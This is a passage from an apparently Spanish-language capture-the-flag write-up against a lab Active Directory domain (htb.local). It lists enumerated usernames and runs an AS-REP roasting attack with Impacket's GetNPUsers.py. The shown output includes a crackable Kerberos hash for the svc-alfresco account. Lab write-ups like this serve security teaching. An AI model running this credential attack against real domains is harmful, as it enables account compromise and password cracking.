 ```bash
HealthMailbox968e74d
HealthMailbox6ded678
HealthMailbox83d6781
HealthMailboxfd87238
HealthMailboxb01ac64
HealthMailbox7108a4e
HealthMailbox0659cc1
sebastien
lucinda
svc-alfresco
andy
mark
santi
```

Como tenemos un listado potencial de usuarios, podemos tratar de efectuar un `ASREProast Attack` para tratar de obtener un `TGT - ticket granting ticket` que basicamente se traduce a un hash que podemos tratar de crackear. Para ello vamos a exportar los usuarios obtenidos en un archivo.

```bash
❯ GetNPUsers.py -no-pass -usersfile users htb.local/
Impacket v0.11.0 - Copyright 2023 Fortra

[-] User Administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] User HealthMailboxc3d7722 doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailboxfc9daad doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailboxc0a90c9 doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailbox670628e doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailbox968e74d doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailbox6ded678 doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailbox83d6781 doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailboxfd87238 doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailboxb01ac64 doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailbox7108a4e doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailbox0659cc1 doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User sebastien doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User lucinda doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$svc-alfresco@HTB.LOCAL:7d76b9feda1646146b12dce5ca4b85bb$a6cf183aa4803f1d4e54123a24516e4e6468c484ae6735370d270e74ff7a09f9a0fcc28abfe3e79f3c3995693abdcb9009043f2a6f941780e8b028b68f0d6727b269f4f7eb0939fb049ed9103c1bf81c9b707fbf20acddd0166ff1fe591c0f8c38115ce7696a9a2c62787cad92c6fc8130ef0ab36e40f8512caf4b2896860a60c87ec78611aa67cf8bf0c570530974ee8e2f090e5979aa7387a34d4456688a9a08e71c79714e341b4bed2f120836a3a95831f462da15bec11d56c6a1445be3db49a32f0751c00b73df61a4558d3c0bc5187f3df9fef3c7824ed43ae7baa22682450724dcc52b
[-] User andy doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User mark doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User santi doesn't have UF_DONT_REQUIRE_PREAUTH set
```
